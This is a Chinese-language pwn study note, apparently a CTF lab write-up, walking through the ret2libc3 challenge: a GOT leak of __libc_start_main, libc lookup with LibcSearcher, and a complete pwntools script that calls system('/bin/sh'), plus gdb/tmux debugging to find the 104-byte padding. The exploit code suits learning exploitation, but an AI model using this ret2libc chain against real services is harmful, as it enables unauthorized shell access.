


### 7. ret2libc3

在例 2 的基础上，再次将 system 函数的地址去掉。此时，我们需要同时找到 system 函数地址与 /bin/sh 字符串的地址。首先，查看安全保护

```bash
checksec ./ret2libc3
[*] '/home/seveng0/Desktop/pwn/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

有NX保护

ida打开

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s);
  return 0;
}
```

我们需要找到system函数的地址

> system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
>
> 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。而 libc 在 github 上有人进行收集，如下
>
> `https://github.com/niklasb/libc-database`

所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system 函数的地址。

那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。**当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。**

我们自然可以根据上面的步骤先得到 libc，之后在程序中查询偏移，然后再次获取 system 地址，但这样手工操作次数太多，有点麻烦，这里给出一个 libc 的利用工具，`https://github.com/lieanu/LibcSearcher`


这里我们泄露`__libc_start_main`的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

> 1. 泄露 `__libc_start_main` 地址
> 2. 获取 libc 版本
> 3. 获取 system 地址与 /bin/sh 的地址
> 4. 再次执行源程序
> 5. 触发栈溢出执行 system(‘/bin/sh’)


从本地安装`LibcSearcher`库

```
python setup.py develop
```




```python
from pwn import *
from LibcSearcher import LibcSearcher

p=process('/home/seveng0/Desktop/pwn/ret2libc3')

ret2libc3=ELF('/home/seveng0/Desktop/pwn/ret2libc3')
puts_plt=ret2libc3.plt['puts'] #获取 puts 函数在 PLT 表中的地址
libc_start_main_got = ret2libc3.got['__libc_start_main'] #获取 __libc_start_main 函数在 GOT 表中的地址
main=ret2libc3.symbols['main'] #获取 main 函数的地址，用于在泄露地址后返回到 main 函数，重新执行程序
#symbols 是 ELF 对象的一个属性，它是一个字典，包含了二进制文件中所有符号（函数、变量等）的名称和地址。

payload=flat([b'a'*112,puts_plt,main,libc_start_main_got])
#puts函数打印获取 __libc_start_main 函数的地址，返回地址为main函数
p.sendlineafter(b'Can you find it !?',payload)

libc_start_main_addr=u32(p.recv()[0:4]) #接收到的数据转为32位整数
libc=LibcSearcher('__libc_start_main',libc_start_main_addr)
#libc.add_condition('puts', puts_addr)
libcbase=libc_start_main_addr-libc.dump('__libc_start_main')
#先执行到这，匹配到多个版本，手动选择1: ubuntu-glibc (id libc6_2.23-0ubuntu11.3_i386)


#计算libc基地址 libcbase = 泄露的函数地址 - 该函数在 libc 中的偏移量
system_addr=libcbase+libc.dump('system') 
#计算 system 函数的真实地址：system_addr = libcbase + libc.dump('system')。
binsh_addr=libcbase+libc.dump('str_bin_sh') #计算字符串 "/bin/sh" 的真实地址

payload=flat([b'a'*104,system_addr,b'b'*4,binsh_addr])

p.sendline(payload)
p.interactive()
```


找不到符合的libc库




下载`https://github.com/niklasb/libc-database`的压缩包，解压改名后拖到虚拟机中替换原本的`libc-database`



下载 Ubuntu 系统的 libc（C 标准库）相关的文件。

```
root@ubuntu:/home/seveng0/LibcSearcher/libc-database# apt-get install zstd
root@ubuntu:/home/seveng0/LibcSearcher/libc-database# ./get
root@ubuntu:/home/seveng0/LibcSearcher/libc-database# ./get ubuntu
```





等一会(这玩意下完可能要一天，见好就收)，然后再次尝试




### 8. 附加调试，tmux，填充大小

需要解答一个问题：为什么ret2libc3第二次payload要填充104个a？


下载`tmux`终端多路复用器

```bash
sudo apt-get install tmux
```

tmux常见快捷键和命令

```bash
前缀键
    `Ctrl + b`：默认的前缀键，所有快捷键都需要先按这个组合键。
会话操作
    `Ctrl + b d`：分离当前会话（detach）。tmux detach
    `Ctrl + b s`：列出所有会话（sessions）。tmux ls
    `Ctrl + b $`：重命名当前会话。tmux rename-session -t <old_name> <new_name>
    tmux new -s <session_name>	创建一个新会话并指定名称。
    tmux attach -t <session_name>	连接到指定会话。
	tmux kill-session -t <session_name>	关闭指定会话。
窗口操作
    `Ctrl + b c`：创建新窗口（create）。tmux new-window -n <window_name>
    `Ctrl + b w`：列出所有窗口（windows）。tmux list-windows
    `Ctrl + b n`：切换到下一个窗口（next）。
    `Ctrl + b p`：切换到上一个窗口（previous）。
    `Ctrl + b &`：关闭当前窗口。
    `Ctrl + b ,`：重命名当前窗口。tmux rename-window <new_name>
    tmux select-window -t <window_number>	切换到指定编号的窗口。
    tmux kill-window -t <window_number>	关闭指定窗口。
面板操作
    `Ctrl + b %`：垂直分割面板（split vertically）（上下布局）。tmux split-window -v
    `Ctrl + b "`：水平分割面板（split horizontally）。tmux split-window -h
    `Ctrl + b o`：切换到下一个面板（other）。
    `Ctrl + b ;`：在最近使用的两个面板之间切换。
    `Ctrl + b x`：关闭当前面板。
    `Ctrl + b z`：最大化/恢复当前面板（zoom）。
    `Ctrl + b 方向键`：调整当前面板的大小。(需要把NumLock关了)
    tmux select-pane -U	切换到上方面板。
    	-D/-L/-R 下方/左方/右方
    tmux swap-pane -U	将当前面板与上方面板交换。
    	-D/-L/-R 下方/左方/右方
    tmux resize-pane -L 10 将当前面板向左调整 10 个单位宽度
    	-D/-L/-R 下/左/右
其他操作
    `Ctrl + b [`：进入复制模式，可以使用方向键滚动和选择文本。
    `Ctrl + b ]`：粘贴复制的文本。
    `Ctrl + b t`：显示时钟。
    `Ctrl + b ?`：显示所有快捷键帮助。
    tmux list-keys	列出所有快捷键绑定。
	tmux list-commands	列出所有支持的命令。
	tmux start-server 	启动tmux服务器
	tmux kill-server	关闭所有会话和 tmux 服务器。(用这个命令会导致一些奇怪问题)
```


进终端输入`tmux`启用一个tmux会话


```python
from pwn import *
from LibcSearcher import LibcSearcher

# 设置终端环境为 tmux 分屏
context.terminal=['tmux', 'splitw', '-h']

p=process('/home/seveng0/Desktop/pwn/ret2libc3')
gdb.attach(proc.pidof(p)[0],"""
	break *gets
	continue
""")#gdb附加调试至主进程

ret2libc3=ELF('/home/seveng0/Desktop/pwn/ret2libc3')
puts_plt=ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main'] 
main=ret2libc3.symbols['main'] 

payload=flat([b'a'*112,puts_plt,main,libc_start_main_got])
p.sendlineafter(b'Can you find it !?',payload)

libc_start_main_addr=u32(p.recv()[0:4])
libc=LibcSearcher('__libc_start_main',libc_start_main_addr)
libcbase=libc_start_main_addr-libc.dump('__libc_start_main')

#手动选择1: ubuntu-glibc (id libc6_2.23-0ubuntu11.3_i386)
```

如下图，光标会聚焦右边屏幕gdb部分



按`ctrl+b+o`切换窗格，输入`1`手动选择glibc库




```python
payload=cyclic(200)
p.sendline(payload)
```

`ctrl+b+o`切换回gdb面板，输入`continue`

可以看到返回地址被覆盖成了`0x62616162`



计算出偏移量为 104，这意味着在返回地址之前需要填充 104 个字节的垃圾数据。

```bash
pwndbg> cyclic -l 0x62616162
104 
```


### 9. ret2csu


